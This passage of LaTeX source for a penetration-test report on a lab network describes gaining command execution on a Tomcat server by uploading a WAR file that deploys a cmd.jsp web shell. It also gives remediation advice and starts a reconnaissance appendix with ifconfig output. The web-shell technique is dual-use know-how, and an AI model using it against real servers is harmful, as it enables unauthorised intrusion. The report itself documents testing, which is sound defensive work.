%	
\includegraphics[width=\linewidth]{images/tomcat-metasploitable-deploy.png}
%	\caption{Default Tomcat install.}
%	\label{fig:tomcat-injection3}
%\end{figure}

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/tomcat-metasploitable-upload.png}
	\caption{Upload WAR file to Tomcat.}
	\label{fig:tomcat-injection4}
\end{figure}

\newpage
If we open the new cmd web application hosted at cmd/cmd.jsp, we now have the
ability to run shell commands on this host.

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/tomcat-metasploitable-cmd.png}
	\caption{Use cmd app to run shell commands.}
	\label{fig:tomcat-injection5}
\end{figure}

\paragraph{Recommendation}

\begin{enumerate}
  \item Change the default credentials for the Tomcat account.
  \item Restrict access to the Tomcat manager.
\end{enumerate}

\paragraph{References}

\begin{enumerate}
  \item https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html
\end{enumerate}

%\newpage
%\section{Attack Narrative}
%\subsection{Wordpress Exploitation}
%\subsection{Wordpress Plugin Unintended File Type Upload}
%\subsection{Linux Local Privilege Escalation}
%\subsection{Maintaining Access to Compromised Webserver}
%\subsection{Vulnerable Splunk Installation}
%\subsection{Domain Privilege Escalation}
%\subsection{Attacker Control of Archmake Transactions}

\newpage
\section{Appendix A: Reconnaissance}

In order to get an understanding of what hosts are active on the network the first step 
I took was to find out what ip address the DHCP server assigned to my backtrack host using 
ifconfig\footnote{\label{ifconfig}ifconfig -- configure network interface parameters} 

\begin{lstlisting}[language=Bash, firstline=1, lastline=3]
root@bt-was:~/# ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:4b:5c:be  
          inet addr:10.2.1.30  Bcast:10.2.1.31  Mask:255.255.255.224
          inet6 addr: fe80::20c:29ff:fe4b:5cbe/64 Scope:Link
